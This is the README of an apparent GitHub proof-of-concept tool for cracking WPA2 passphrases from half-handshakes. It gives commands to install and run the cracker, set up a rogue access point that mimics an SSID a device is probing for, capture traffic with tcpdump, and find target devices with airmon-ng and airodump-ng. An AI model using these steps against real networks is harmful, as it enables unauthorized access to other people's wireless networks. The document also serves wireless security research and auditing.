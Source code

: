 # WPA2-HalfHandshake-Crack
This is a POC to show it is possible to capture enough of a handshake with a user from a fake AP to crack a WPA2 network without an AP

## Install

```
  $ sudo python setup.py install
```

## Sample use

```
  $ python halfHandshake.py -r sampleHalfHandshake.cap -m 48d224f0d128 -s "no place like 127.0.0.1"
```

* **-r** Where to read input pcap file with half handshake (works with full handshakes too)
* **-m** AP mac address
* **-s** AP SSID
* **-d** (optional) Where to read dictionary from

## Capturing half handshakes

* Setup a WPA2 wifi network with an SSID the same as the desired device probe. The passphrase can be anything

  In ubuntu this can be done here

http://ubuntuhandbook.org/index.php/2014/09/3-ways-create-wifi-hotspot-ubuntu/

* Capture traffic on this interface.

  In linux this can be achived with TCPdump
```
sudo tcpdump -i wlan0 -s 65535 -w file.cap
```

* To listen for device probes the aircrack suite can be used as follows

```
sudo airmon-ng start wlan0
sudo airodump-ng mon0
```

  You should begin to see device probes with BSSID set as (not associated) appearing at the bottom. If WPA2 SSIDs pop up for these probes, these devices can be targeted
